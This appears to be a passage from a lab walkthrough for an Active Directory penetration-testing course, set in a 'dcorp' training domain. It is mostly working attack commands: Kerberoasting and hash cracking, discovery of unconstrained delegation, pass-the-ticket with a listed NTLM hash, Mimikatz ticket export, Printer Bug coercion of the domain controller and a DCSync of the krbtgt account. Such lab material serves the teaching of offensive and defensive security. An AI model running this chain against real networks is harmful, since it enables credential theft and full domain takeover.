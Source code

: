 ```powershell
Rubeus.exe kerberoast /outfile:targetedhashes.txt 

john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt

```

### Objective 15:

- Find a server in the dcorp domain where Unconstrained Delegation is enabled. 
- Compromise the server and escalate to Domain Admin privileges. 
- Escalate to Enterprise Admins privileges by abusing Printer Bug!

##### Unconstrained Delegation
``` powershell
Username:           appadmin
aes256_hmac         68f08715061e4d0790e71b1245bf20b023d08822d2df85bff50a0e8136ffe4cb
rc4_hmac_nt         d549831a955fee51a43c83efb3928fa7



#### Enumerate computers which have unconstrained delegation enabled 
Get-DomainComputer -UnConstrained
(OR)
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}


####<Compromise system(appadmin local admin on dcorp-appsrv)>

####PTT
C:\AD\Tools\Rubeus.exe asktgt /user:appadmin /rc4:d549831a955fee51a43c83efb3928fa7 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

####Run these commands on that machine
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'


####Inject ticket into current Powershell Session on Compromise Machine..
Invoke-Mimikatz -Command '"kerberos::ptt <filename>.kirbi"'

```


For dcorp-dc escalation to DA
```powershell

####Tranfer rubeus to dcorp-appsrv where uncontrained delegation enabled
echo F | xcopy C:\AD\Tools\Rubeus.exe \\dcorp-appsrv\C$\Users\Public\Rubeus.exe /Y

####winrs to dcorp-appsrv
winrs -r:dcorp-appsrv cmd

####Listening for ticket using rubeus
C:\Users\Public\Rubeus.exe monitor /targetuser:DCORP-DC$ /interval:5 /nowrap

####Force dcorp-dc to authenticate itself to dcorp-appsrv
C:\AD\Tools\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local

####On student VM, Inject the ticket in current powershell session.
C:\AD\Tools\Rubeus.exe ptt /ticket:<base64_ticket>

####Perform DCsysc attack
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"

```